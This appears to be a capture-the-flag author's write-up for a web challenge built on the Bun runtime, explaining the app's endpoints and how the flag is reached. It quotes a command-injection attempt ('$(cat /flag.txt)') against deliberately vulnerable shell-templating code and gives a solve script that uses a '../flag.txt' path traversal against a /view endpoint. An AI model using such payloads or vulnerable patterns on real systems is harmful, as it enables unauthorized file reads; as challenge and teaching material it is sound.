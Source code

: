 # Databases are for noobs
### Difficulty: 0.2
### available at: https://ctf.rustalytics.com

# How did it go developing it?
The vulnurability I was trying to expose did not work the way I intended. This probably has to do with the [Bun runtime](https://bun.sh/) not excecuting bash the way I thought it would.
for example:

```js
//You would thinkg writing $(cat /flag.txt) would make that excecte and input the flag to the file but it doesn't
//Instead it writes the actual string "$(cat /flag.txt)" into the file and not excecuting
const createfile = await $`echo ${data1} > ${req.query.auth}/${data2}`.text()
```
The difficulty is changed from a 0.4 to a 0.2
This is because there is not much knowledge about bash required as it is only a path and the auth is exposed in the query params and not in the headers so it is easy to notice
Now you just have to understand that the "todo" is read is a directory
# What does the hacker have access to?
The hacker has access to only the website before finding the exploit.
The website sends 3 different serevr requests:
* /view: opens a file/todo (like cat), This is where you solve it
* /list: lists the todos (like ls). I did an empty path so it will be easier for the hacker to find the flag when they found the exploit
* /create: echos data into a file. This was meant to be the exploit but as meanti9oned above it never worked
# How do you solve it
It is solved by sending a request to the /view endpoint with a body that goes to the flag
The auth has to exist so people don't have the same todos when going to the website
I also think that is a good skill to learn that you often can copy the auth tokens from the web cookies/headers or query params to use an API with a script
This is how my project [Rustalytics](https://rustalytics.com) has done with the api endpoints of a rust server to provide a good service
```js
let headersList = {
 "Accept": "*/*",
 "User-Agent": "Thunder Client (https://www.thunderclient.com)",
 "Content-Type": "application/json"
}

let bodyContent = JSON.stringify({"todo": "../flag.txt"});
const id = ""//your auth id
let response = await fetch(`https://ctfdb.rustalytics.com/view?auth=${id}`, { 
  method: "POST",
  body: bodyContent,
  headers: headersList
});

let data = await response.text();
console.log(data);

``` 

